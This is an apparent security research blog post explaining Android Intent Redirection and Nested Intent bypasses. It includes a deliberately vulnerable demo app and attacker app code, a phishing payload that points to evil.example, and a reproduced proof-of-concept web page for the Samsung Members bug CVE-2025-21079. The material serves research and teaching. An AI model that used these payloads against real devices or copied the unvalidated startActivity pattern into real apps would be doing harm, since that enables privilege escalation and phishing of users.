


[Two paths, Same Dream] A Weapon for Those Without Rooting: Intent Redirection Part 1. (EN)

Hello! I’m newp1ayer48, the one handling the lowest place (low-level) at Hackyboiz, now looking toward higher places! 🤸🏻♂️
With the Two paths, Same Dream project I’ve been looking at Android, and within that I focus mainly on the application layer on Samsung Galaxy. There’s a sad story behind this: on Samsung Galaxy, rooting is blocked by default starting from the One UI 8.5 (Android 16) version. Because rooting would therefore require yet another 0-day… I shout “actually, even better” and focus mainly on logical bugs.
The main topic of this article is intent redirection, a vulnerability characteristic of Android and at the same time a frequently used logical bug vulnerability. Through it, without memory corruption or command injection, you can even reach a shell with high privileges such as system!
1. Intent
Intent was already introduced in the previous Part 0 research article, but since it is an important concept, let’s go over it again. In particular, let’s look at why the Intent form was used when Android was first developed and designed.
Android is an operating system designed on the philosophy that “anyone can upload an app and anyone can install it.” Therefore, developing programs in an unmanaged language that can directly access memory, like traditional C/C++, would have been a major performance/security risk. In addition, the Android application model had to be designed in a form that satisfies the following four constraints and conditions.
- Speed: the system must be able to spin up a process for any part of an app when needed, and be launchable from multiple entry points.
- Lifecycle: a process can die at any time, and there may be no receiver.
- Name resolution: there are cases where the system cannot point to something by name, as with third-party apps, or does not know it.
- Security: each app must be isolated by UID.
Therefore, a simple remote method call alone cannot satisfy these.
](image%201.png)
https://medium.com/@esc4nor9/android-security-internals-notes-part-1-8ac593930cd2
To solve this problem, Binder IPC was adopted. This is a mechanism that already exists in the Linux Kernel. The Binder residing in the kernel delivers communication between different processes in the form of IPC messages. Through this, isolation between processes (apps) can be achieved.
A similar structure in the form of XPC can also be seen in iOS and macOS.
](image%202.png)
https://developer.android.com/guide/platform?hl=ko
Therefore, the messages used for inter-app communication in Android must take the form of described data so that the system can read, interpret, store, and delegate them. For this reason, in addition to Binder IPC, the Java-level Intent is introduced to achieve the constraints and conditions mentioned earlier.
The Android architecture can be seen as in the picture above, and can be broadly divided into the Java Level, which runs on the Java framework, and the C Level, which runs on the Native Library/Linux Kernel. In this architecture diagram, Intent can be seen as belonging to the Java Level, and Binder IPC to the C Level.

Mapping this to the earlier Android architecture diagram, the process of sending an Intent message from App A to App B is illustrated as above. The intent object created at App A’s Java framework layer generates a parcel message in the native library. The binder delivers it in IPC form, and in between, the system_server with System privileges (UID 1000) performs a permission check. If it passes, delivery to App B is completed, and the structure is such that the Intent is read from the parcel message and handled in App B.
2. Intent Redirection

A good example for observing Intent with our own eyes is the notification. The entity that displays and triggers a notification is SystemUI (the system UI process), but when you tap a notification and it is sent, the actual Intent runs with the identity and permissions of the original app that created the notification. For example, when you tap the action button of a calendar notification or the body of a message notification, that Intent is fired not with SystemUI’s permissions but with the calendar/message app’s permissions. The basic idea of Intent Redirection starts right here.
In the normal case, App A can only launch App B’s exported components. A component with android:exported="false" can only be launched by the same app (the same UID). Intent Redirection bypasses this access control through a proxied execution that runs with that app’s permissions. For this reason, Intent Redirection is classified as a logical bug vulnerability that falls under the Confused Deputy problem.
The attacker does not call the private component directly. Instead, they send data to the victim app’s exported component, and make the victim app send, on their behalf, the Intent built from that data via startActivity() and the like. As far as the system is concerned, the caller is not the attacker but the victim app.
| 지점 | 발사 API | 공격자가 노리는 것 |
|---|---|---|
| Activity | startActivity(), startActivityForResult() |
Launch a private Activity, steal result data |
| Broadcast Receiver | sendBroadcast(), sendOrderedBroadcast() |
Deliver a crafted broadcast to a private Receiver, forge a protected action |
| Content Provider | Intent data URI(content://) + FLAG_GRANT_READ/WRITE_URI_PERMISSION |
Delegate access to a private provider to the attacker’s component → steal files/DB |
| PendingIntent | PendingIntent.send() (including notifications) |
Fire a stored Intent on behalf, with the original app’s permissions |
Intent redirection is ultimately the victim app firing an attacker-influenced Intent somewhere with its own permissions. The sinks where this firing happens are, given the Android component structure, broadly four.
- Activity: a single screen the user sees and operates. For example, in a messaging app, the conversation list screen, the conversation content screen, and the message composition screen are each an Activity. Launching an app or moving to another screen is the act of starting an Activity (startActivity).
- Broadcast Receiver: a component that listens and reacts to events (broadcasts) emitted by the system or other apps. For example, when events like “boot completed,” “battery low,” or “airplane mode on” arrive, the app wakes up and handles them. For instance, an alarm app re-registers alarms after boot, or a messenger starts syncing when the network connection is restored.
- Content Provider: a component that provides structured data (mainly DB/files) to other apps via
content://URIs. A representative example is the Contacts Provider, through which a messenger reads the user’s address book with the “contacts access permission.” - PendingIntent: a PendingIntent is not an “Intent to run right now” but an Intent token entrusted so that another process can later fire it on behalf of my app. The notification explained as an example earlier is exactly this.
2.1. Hands-on
Let’s verify Intent Redirection directly through example code and apps in a hands-on manner.
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android">
<application
android:allowBackup="true"
android:label="@string/app_name">
<!-- Launcher: run victim normally to see the legitimate screen -->
<activity android:name=".MainActivity" android:exported="true">
<intent-filter>
<action android:name="android.intent.action.MAIN" />
<category android:name="android.intent.category.LAUNCHER" />
</intent-filter>
</activity>
<!-- Entry point reachable by the attacker (the redirection proxy) -->
<activity android:name=".RedirectActivity" android:exported="true">
<intent-filter>
<action android:name="com.example.victim.REDIRECT" />
<category android:name="android.intent.category.DEFAULT" />
</intent-filter>
</activity>
<!-- Should be reachable only by victim itself -->
<activity android:name=".SecretActivity" android:exported="false" />
</application>
</manifest>This is the AndroidManifest.xml used by victim.apk. AndroidManifest.xml is the file that specifies the access control and permissions of the app and its components. What we should look at here is that SecretActivity is set to exported="false". With this setting, only an app that has this app’s UID can access it.
package com.example.victim;
import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.Toast;
import java.net.URISyntaxException;
public class RedirectActivity extends Activity {
private static final String TAG = "victim";
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
String uri = getIntent().getStringExtra("redirect_uri");
Log.i(TAG, "redirect_uri = " + uri);
if (uri != null) {
try {
Intent forward = Intent.parseUri(uri, Intent.URI_INTENT_SCHEME);
startActivity(forward); // vuln
} catch (URISyntaxException e) {
Log.e(TAG, "bad redirect_uri", e);
Toast.makeText(this, "Invalid payload: " + e.getMessage(), Toast.LENGTH_LONG).show();
} catch (Exception e) {
Log.e(TAG, "startActivity failed", e);
Toast.makeText(this, "Launch failed: " + e.getMessage(), Toast.LENGTH_LONG).show();
}
}
finish();
}
}This source code is the part where the vulnerability exists. Because there is a statement that fires the intent without validation via startActivity(forward);, Intent Redirection occurs.
package com.example.victim;
import android.app.Activity;
import android.os.Bundle;
import android.widget.TextView;
public class SecretActivity extends Activity {
private static final String NOTICE =
"[Notice] System maintenance is scheduled today at 18:00.";
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
String extra = getIntent().getStringExtra("append");
String shown = NOTICE;
if (extra != null) {
shown = NOTICE + "\n" + extra;
}
TextView tv = new TextView(this);
int pad = (int) (16 * getResources().getDisplayMetrics().density);
tv.setPadding(pad, pad, pad, pad);
tv.setTextIsSelectable(true);
tv.setText("SecretActivity (exported=false)\n\n" + shown);
setContentView(tv);
}
}This part is the restricted internal activity we saw earlier in AndroidManifest.xml. As originally intended, it prints only a hardcoded string on the screen. However, it receives an intent with the app’s permissions, and because this too has no caller validation, when Intent Redirection occurs the input value is additionally printed as well.
The following is the source code of attacker.apk.
package com.example.attacker;
import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.Toast;
public class MainActivity extends Activity {
private static final String VICTIM_PKG = "com.example.victim";
private static final String REDIRECT_ACTIVITY = "com.example.victim.RedirectActivity";
private static final String SECRET_ACTIVITY = "com.example.victim.SecretActivity";
private static final String SAMPLE_PAYLOAD =
"intent:#Intent;component=com.example.victim/.SecretActivity;"
+ "S.append=* Re-authenticate at http://evil.example for security;end";
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
final EditText payload = findViewById(R.id.payload);
payload.setText(SAMPLE_PAYLOAD);
Button send = findViewById(R.id.btn_send);
send.setOnClickListener(new View.OnClickListener() {
@Override
public void onClick(View v) {
String text = payload.getText().toString();
Intent i = new Intent("com.example.victim.REDIRECT");
i.setClassName(VICTIM_PKG, REDIRECT_ACTIVITY);
i.putExtra("redirect_uri", text);
try {
startActivity(i);
} catch (Exception e) {
Toast.makeText(MainActivity.this,
"Send failed: " + e.getMessage(), Toast.LENGTH_LONG).show();
}
}
});
Button direct = findViewById(R.id.btn_direct);
direct.setOnClickListener(new View.OnClickListener() {
@Override
public void onClick(View v) {
try {
Intent i = new Intent();
i.setClassName(VICTIM_PKG, SECRET_ACTIVITY);
startActivity(i);
Toast.makeText(MainActivity.this,
"Launched directly (unexpected)", Toast.LENGTH_LONG).show();
} catch (SecurityException e) {
Toast.makeText(MainActivity.this,
"Direct launch denied: " + e.getMessage(), Toast.LENGTH_LONG).show();
} catch (Exception e) {
Toast.makeText(MainActivity.this,
"Direct launch failed: " + e.getMessage(), Toast.LENGTH_LONG).show();
}
}
});
}
}This source code is the part that sends the input value. To trigger Intent Redirection, it was written to target the hidden SECRET_ACTIVITY in victim.apk. In addition, a button was also made to check what happens when an intent is sent with attacker.apk‘s permissions.

This is the result of the hands-on using attacker.apk and victim.apk. In victim.apk, a hardcoded string is printed by default. And because it is exported="false", you can see that attacker.apk cannot access that activity directly.
intent:#Intent;component=com.example.victim/.SecretActivity;S.append=INJECTED;endHowever, if you send an Intent message containing the message above, Intent Redirection occurs and this can be bypassed. The entity that calls startActivity(forward), the vulnerability identified earlier, is the victim process (victim UID). So the permission check of system_server, which performs basic UID validation, sees caller UID == target UID and allows the launch of the non-exported activity SecretActivity.
Through this, the malicious string entered by the attacker was inserted, and we can confirm that a phishing scenario that lures the user into accessing a malicious URL is possible.
3. Nested Intent

As the name implies, a Nested Intent means an Intent object in which multiple Intents exist in a nested state. It is a method of putting a completed Intent object into another Intent’s extra as a Parcelable and sending it, and making the victim app take it out and execute it as is.
Apps often put an Intent inside an Intent to pass along the next screen to open after a screen transition. Returning to the original screen after login, resuming work after a permission request, and routing proxy Activities are representative examples. Since Intent is Parcelable, it can be placed directly via putExtra("next", innerIntent).
This too, as a hands-on, let’s check what happens if we change the earlier hands-on into a nested intent.
Intent forward = Intent.parseUri(uri, Intent.URI_INTENT_SCHEME);
if (Guard.isAllowed(this, forward)) { // patch
Log.i(TAG, "[parseUri] allowed -> " + Guard.describe(forward));
launch(forward, "parseUri");As a patch for the earlier Intent Redirection, victim.apk changes, as above, to take out and execute the Intent object from the extra instead of a string.
Intent inner = new Intent();
inner.setClassName(VICTIM_PKG, SECRET_ACTIVITY);
inner.putExtra("append", INJECTED);
Intent outer = new Intent(ACTION_REDIRECT);
outer.setClassName(VICTIM_PKG, REDIRECT_ACTIVITY);
outer.putExtra("forward_intent", inner);
send(outer);To bypass this, attacker.apk writes the payload into the inner Intent in nested intent form. And it composes a normal intent in the outer Intent extra, nesting the intents.

When you run the hands-on, you can confirm that Intent Redirection is blocked by the patch. However, when you send a payload made as a nested intent, you can confirm that the exploit works well. Like this, a nested intent can bypass two main things.
The first is the app’s input validation. Looking only at the outer Intent it appears normal, but the attack payload is wrapped as a Parcel inside the extra, so it passes the scheme/host/action whitelist check on the basis of the outer Intent. Until the victim app takes it out with getParcelableExtra(), the inner Intent is just an opaque lump of parcel bytes.
The second is the android:exported="false" access restriction. If you set the inner Intent’s component to the victim app’s private Activity, the victim app calls startActivity() with its own UID, so the permission check passes.
Android 16 blocks this pattern at the OS level. When both the app’s targetSdk and the OS are Android 16, an Intent taken out of an extra is blocked from execution by default. However, if the developer calls removeLaunchSecurityProtection() on the taken-out Intent, this protection is lifted.
4. 1-Day Case: CVE-2025-21079
Let’s look at CVE-2025-21079, a real-world case of Intent Redirection. This vulnerability was demonstrated at Pwn2Own Ireland 2025. It is a vulnerability that chains from the Samsung Members app and ultimately allows launching an Activity with System privileges. It is a chain that displays an attacker-controlled URL in the WebView inside the Samsung Members app and, through that WebView, connects all the way to Intent Redirection.
4.1. Webview
String url = getIntent().getStringExtra("url");
String viewType = getIntent().getStringExtra("viewType");
boolean allowWithoutLogin =
getIntent().getBooleanExtra("ALLOW_WITHOUT_LOGIN", false);
if (ActionUri.canPerformActionLink(getIntent())
&& (allowWithoutLogin || isLoggedIn())) { // vuln
route(ActionUri.NEWS_AND_TIPS_DETAIL, getIntent().getExtras());
}If allowWithoutLogin is true, it routes immediately without checking isLoggedIn(), so if the attacker simply puts ALLOW_WITHOUT_LOGIN=true in the extra, they can enter the internal screen without logging in.
if ("INAPP".equals(viewType) && url != null && url.startsWith("http")) {
webView.getSettings().setJavaScriptEnabled(true);
webView.setWebViewClient(new yi3());
webView.loadUrl(url); // vuln
}It only checks whether viewType is "INAPP" and url starts with http, then calls loadUrl(url). Since it does not validate the target host or domain at all, if the attacker puts their own server address in the extra url, that page is loaded as-is into Samsung Members’ WebView.
4.2. Intent Redirection
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest req) {
String url = req.getUrl().toString();
oh6.L(activity, url);
return true;
}yi3.shouldOverrideUrlLoading intercepts every URL the WebView tries to navigate to, turns it into a string, and passes it to oh6.L. If the attacker’s server returns an intent: URL as a 302 response to the page loaded in step 1, that URL reaches oh6.L as-is.
static void L(Activity activity, String str) {
if (TextUtils.isEmpty(str)) return;
if (!str.startsWith("intent:")) return;
try {
Intent uri = Intent.parseUri(str, 1);
activity.getPackageManager().getPackageInfo(uri.getPackage(), 0);
activity.startActivity(uri); // vuln
} catch (Exception e) {
}
}The component, action, and extra of the delivered Intent are all values the attacker wrote into the intent: URL, and oh6.L does not check at all whether the source or target is safe. Since the entity calling startActivity is Samsung Members, this Intent is fired with Samsung Members’ permissions and launches any installed exported component with one click.
<h1>
<button style="height:200px;width:200px" onclick="yaystartyay()">yaypocyay</button>
<script type="text/javascript">
function yaystartyay() {
var yayhostyay = "172.16.30.113"
// open com.samsung.android.voc
location.href="intent://view/newsAndTipsDetail#Intent;S.viewType=INAPP;scheme=voc;B.ALLOW_WITHOUT_LOGIN=true;S.url=http%3A%2F%2F" + yayhostyay + "%3A8000%2Fyayredirect1yay;end";
}
</script>
<br>
</h1>The code above is the HTML code on the malicious web page that contains the Intent Redirection payload. In other words, it bypasses the intent: URL check in the WebView, and the app interprets it with parseUri and executes it as-is. Through this, any exported Activity of an installed package can be launched with a single click.
](image%206.png)
Looking at the GIF of the PoC process, triggering the PoC link from the malicious URL with one click goes through the Samsung Members app and ultimately launches the Settings app. Since the Settings app is a System-privileged app holding UID 1000, this PoC confirms that a 1-Click System Activity Launch is possible. The article explains that the Pwn2Own chain was then completed with a chain continuing into Samsung Account and Bixby.

As revealed in Android’s development philosophy examined earlier, Android has the characteristic of isolation between apps. Because of this, the representative means of affecting another app is exactly the Intent, and in terms of impact such as Lateral Movement as well as from a vulnerability and exploitation perspective, Intent Redirection is very important in Android.
And through this vulnerability, via an app without permissions or via input, one can obtain or access high privileges such as system (UID 1000). That is why it frequently appears and is used at Pwn2Own as well.
In my personal opinion, now that countless vulnerabilities are being found and patched with LLMs, I think this is a vulnerability that is relatively hard for AI to find. Compared to Memory Corruption, where the vulnerability is immediately revealed in the code through static analysis, I think the strength of Intent Redirection—which arises in communication between other apps that looks as if it were normal—is becoming apparent.
So! I’ll work hard to find vulnerabilities and try to write the next article with a vulnerability I found myself!
Next time, I’ll be back as Part 3 with another teammate. Thank you!

본 글은 CC BY-SA 4.0 라이선스로 배포됩니다. 공유 또는 변경 시 반드시 출처를 남겨주시기 바랍니다.